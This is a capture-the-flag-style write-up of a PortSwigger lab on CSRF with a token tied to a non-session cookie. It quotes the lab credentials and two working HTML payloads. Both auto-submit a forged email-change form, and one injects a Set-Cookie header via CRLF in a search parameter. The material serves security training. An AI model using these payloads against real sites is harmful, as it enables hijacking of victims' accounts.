 Title: CSRF where token is tied to non-session cookie
Level: PRACTITIONER
Desc:  This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.
To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You have two accounts on the application that you can use to help design your attack. The credentials are as follows:
    wiener:peter
    carlos:montoya

# Walkthrough: 


```
<form method="POST" action="https://0a2e0070032cbd63804c03a10030002d.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test31@normal-user.net">
    <input type="hidden" name="csrf" value="jAULYwXd0uwwmHbrrdqnEAhYF28f89Gx">
</form>
<script>
    document.cookie = "csrfKey=geGxCuNvi7OdVOsaiWKhTd2E1wrhs7Yg; path=/";
    document.forms[0].submit();
</script>
```

It works but portswigger don't accept that solution.

Proper solution in portswigger:
```
<form method="POST" action="https://0a2e0070032cbd63804c03a10030002d.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test1321@normal-user.net">
    <input type="hidden" name="csrf" value="jAULYwXd0uwwmHbrrdqnEAhYF28f89Gx">
</form>
<img src="https://0a2e0070032cbd63804c03a10030002d.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=geGxCuNvi7OdVOsaiWKhTd2E1wrhs7Yg%3b%20SameSite=None" onerror="document.forms[0].submit()">
```
